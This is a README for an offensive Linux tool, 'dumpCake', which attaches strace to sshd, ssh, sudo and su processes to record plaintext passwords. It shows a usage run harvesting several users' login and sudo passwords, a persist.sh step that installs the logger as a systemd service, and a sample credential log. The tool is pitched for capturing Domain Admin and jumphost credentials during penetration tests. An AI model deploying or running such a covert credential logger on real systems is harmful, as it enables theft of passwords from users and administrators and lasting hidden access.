 # dumpCake

This tool captures and logs passwords used during authentication attempts for su/sudo and inbound and outbound SSH sessions. It works by attaching to each SSHD, SSH, Sudo, and Su process and recording the attempted passwords and related details.

It can be particularly useful during a penetration test when scanning computers on a network and attempting to authenticate with Domain Admin credentials.

It can be employed on a jumphost to capture plaintext credentials when users elevate their privileges or SSH elsewhere in the environment.

# Prerequisites
sudo apt install strace

# Usage

```
┌──(root㉿kali)-[~/dumpCake]
└─# ./cake.sh 
Writing to /root/pass.log

Found SSHD Pid: 3011949. Attaching...

Process: sshd: unknown [priv]
May 23 17:16:03 kali sshd[3011949]: Invalid user frank from 172.25.25.132 port 50962
May 23 17:16:06 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:20 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:21 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:21 kali sshd[3011949]: Connection reset by invalid user frank 172.25.25.132 port 50962 [preauth]
Password Attempt 1: "1234"
Password Attempt 2: "Spring2022!"
Password Attempt 3: ""
----------------------------------------------------
Found SSHD Pid: 3022996. Attaching...

Process: sshd: spicy [priv]
May 23 17:16:32 kali sshd[3022996]: Accepted password for spicy from 172.25.25.132 port 50964 ssh2
Password Attempt 1: "Password1!"
----------------------------------------------------
Found Outbound SSH Pid: 3575968. Attaching...

Process: ssh pi@pi.hole
User: spicy
Password Attempt 1: "1234"
Password Attempt 2: "!beep20"
----------------------------------------------------
Found Su Pid: 3028865. Attaching...

Process: su spicy
User: spicy
Password Attempt: "Password1!"
Successfully Elevated
----------------------------------------------------
Found Sudo Pid: 3037832. Attaching...

Process: sudo id
User: root
Elevation Failed
----------------------------------------------------
Found Sudo Pid: 3040090. Attaching...

Process: sudo id
User: spicy
Password Attempt 1: "Password1!"
Successfully Elevated
----------------------------------------------------
```

# To install as a service
```
┌──(root㉿kali)-[~/dumpCake]
└─# ./persist.sh 
Created symlink /etc/systemd/system/multi-user.target.wants/password-logging.service → /etc/systemd/system/password-logging.service.
```

# Log output
```
┌──(root㉿kali)-[~]
└─# tail -f pass.log 
Process: sshd: unknown [priv]
May 23 17:16:03 kali sshd[3011949]: Invalid user frank from 172.25.25.132 port 50962
May 23 17:16:06 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:20 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:21 kali sshd[3011949]: Failed password for invalid user frank from 172.25.25.132 port 50962 ssh2
May 23 17:16:21 kali sshd[3011949]: Connection reset by invalid user frank 172.25.25.132 port 50962 [preauth]
Password Attempt 1: "1234"
Password Attempt 2: "Spring2022!"
Password Attempt 3: ""
----------------------------------------------------
Process: ssh pi@pi.hole
User: spicy
Password Attempt 1: "1234"
Password Attempt 2: "!beep20"
----------------------------------------------------
Process : sshd: spicy [priv]
May 23 17:16:32 kali sshd[3022996]: Accepted password for spicy from 172.25.25.132 port 50964 ssh2
Password Attempt 1: "Password1!"
----------------------------------------------------
Process : su spicy
User: spicy
Password Attempt: "Password1!"
Successfully Elevated
----------------------------------------------------
Process : sudo id
User: root
Elevation Failed
----------------------------------------------------
Process : sudo id
User: spicy
Password Attempt 1: "Password1!"
Successfully Elevated
----------------------------------------------------

```
